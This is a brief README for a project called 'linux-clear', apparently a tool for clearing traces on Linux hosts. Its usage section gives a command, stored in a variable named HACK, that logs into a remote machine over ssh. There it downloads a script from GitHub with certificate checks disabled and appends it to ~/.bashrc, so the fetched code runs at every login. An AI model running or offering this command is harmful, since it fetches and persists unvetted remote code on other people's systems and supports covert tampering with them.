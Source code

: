 # linux-clear
clear linux 

# usage:

```sh
    export HACK="cp ~/.bashrc /tmp/_bash ;  wget --no-check-certificate 'https://raw.githubusercontent.com/F0ckLinux/linux-clear/master/clear.sh' -O- -q  >>     ~/.bashrc ;  bash"
    ssh xx.xxx.xxx.xx -t $HACK  
```
